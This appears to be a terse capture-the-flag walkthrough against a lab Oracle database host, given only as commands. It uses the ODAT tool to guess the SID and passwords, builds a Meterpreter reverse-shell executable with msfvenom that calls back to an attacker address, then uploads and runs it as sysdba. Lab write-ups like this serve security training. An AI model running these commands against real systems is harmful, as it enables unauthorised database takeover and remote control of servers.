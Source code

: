 ```git clone https://github.com/quentinhardy/odat.git```

```
python3 odat.py sidguesser -s 10.10.10.82 -p 1521

python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE
```

``` msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.16.12 lport=4444 -f exe > writeup.exe```

```
./odat.py externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ writeup.exe

./odat.py utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/writeup.exe writeup.exe
```
